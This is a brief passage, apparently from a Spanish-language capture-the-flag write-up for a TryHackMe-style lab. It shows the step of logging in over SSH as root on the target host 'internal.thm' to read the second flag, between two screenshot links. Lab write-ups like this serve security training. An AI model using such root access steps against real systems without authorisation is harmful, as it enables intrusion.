

Accedemos al usuario root y leemos el fichero que contiene la segunda bandera.

```bash 
ssh root@internal.thm
```



